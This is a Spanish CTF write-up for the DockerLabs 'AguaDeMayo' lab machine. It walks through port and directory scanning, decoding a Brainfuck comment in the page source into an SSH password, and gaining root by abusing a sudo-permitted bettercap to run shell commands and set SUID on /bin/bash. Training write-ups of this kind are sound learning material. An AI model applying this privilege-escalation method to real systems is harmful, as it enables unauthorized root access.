 [[Writeups]]
#Writeups #Easy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Empezamos con un escaneo de todos los puertos:

```bash 
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-29 17:21 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.32 seconds

```

Escaneamos mas profundamente los dos servicios encontrados:

```bash
❯ sudo nmap -p22,80 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-29 17:22 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 75:ec:4d:36:12:93:58:82:7b:62:e3:52:91:70:83:70 (ECDSA)
|_  256 8f:d8:0f:2c:4b:3e:2b:d7:3c:a2:83:d3:6d:3f:76:aa (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```

Usamos gobuster para ver directorios que hayan escondidos :

```bash
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,js,py,xml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              py,xml,php,html,txt,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/index.html           (Status: 200) [Size: 11142]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================
```

Encontramos un listado donde vemos un archivo .jpg vamos a descargarlo y ver si encontramos a los metadatos

![listimageagua.png](assets/listimageagua.png)

No encontramos nada:

```bash
❯ steghide --extract -sf agua_ssh.jpg
Anotar salvoconducto: 
steghide: �no pude extraer ning�n dato con ese salvoconducto!
```

Viendo el código fuente del apache, tiramos hasta abajo del todo y vemos escondido un comentario muy raro:

![sourcecodeagua.png](assets/sourcecodeagua.png)

Lo busco tal cual en google y me sale que es una codificación en brainFuck

![googlebrainfuck.png](assets/googlebrainfuck.png)

ponemos el código quitando las etiquetas de comentario de html y encontramos esto:

![decodebrainfuck.png](assets/decodebrainfuck.png)

**bebeaguaqueessano**, esto podría ser una contraseña, así que se me ocurre iniciar sesión con esta contraseña y el usuario agua ya que veo demasiadas veces referencias al agua:

```bash
❯ ssh agua@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:EZNhR2ojYOvInwAg+dpLntRab/b7eRvr60vq3sn7hH8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
agua@172.17.0.2's password: 
Linux 8b3e470ee530 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 14 17:41:58 2024 from 172.17.0.1
agua@8b3e470ee530:~$
```

Enumeramos permisos Sudo:

```bash
agua@8b3e470ee530:~$ sudo -l
Matching Defaults entries for agua on 8b3e470ee530:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User agua may run the following commands on 8b3e470ee530:
    (root) NOPASSWD: /usr/bin/bettercap
```

Encontramos permisos de Sudo en bettercap, aquí entro a bettercap y en help vemos que podemos ejecutar comandos de consola con ! :

```bash
agua@8b3e470ee530:~$ sudo bettercap
bettercap v2.32.0 (built for linux amd64 with go1.19.8) [type 'help' for a list of commands]

172.17.0.0/16 > 172.17.0.2  » [15:43:00] [sys.log] [war] exec: "ip": executable file not found in $PATH
172.17.0.0/16 > 172.17.0.2  » ?

           help MODULE : List available commands or show module specific help if no module name is provided.
                active : Show information about active modules.
                  quit : Close the session and exit.
         sleep SECONDS : Sleep for the given amount of seconds.
              get NAME : Get the value of variable NAME, use * alone for all, or NAME* as a wildcard.
        set NAME VALUE : Set the VALUE of variable NAME.
  read VARIABLE PROMPT : Show a PROMPT to ask the user for input that will be saved inside VARIABLE.
                 clear : Clear the screen.
        include CAPLET : Load and run this caplet in the current session.
             ! COMMAND : Execute a shell command and print its output.
        alias MAC NAME : Assign an alias to a given endpoint given its MAC address.

Modules

      any.proxy > not running
       api.rest > not running
      arp.spoof > not running
      ble.recon > not running
             c2 > not running
        caplets > not running
    dhcp6.spoof > not running
      dns.spoof > not running
  events.stream > running
            gps > not running
            hid > not running
     http.proxy > not running
    http.server > not running
    https.proxy > not running
   https.server > not running
    mac.changer > not running
    mdns.server > not running
   mysql.server > not running
      ndp.spoof > not running
      net.probe > not running
      net.recon > not running
      net.sniff > not running
   packet.proxy > not running
       syn.scan > not running
      tcp.proxy > not running
         ticker > not running
             ui > not running
         update > not running
           wifi > not running
            wol > not running

172.17.0.0/16 > 172.17.0.2  » !whoami
root
172.17.0.0/16 > 172.17.0.2  »  
```

los podemos ejecutar como root, así que doy permisos suid a /bin/bash para salir de bettercap, abrir una consola con privilegios y obtener root:

![rootAguaDeMayo.png](assets/rootAguaDeMayo.png)
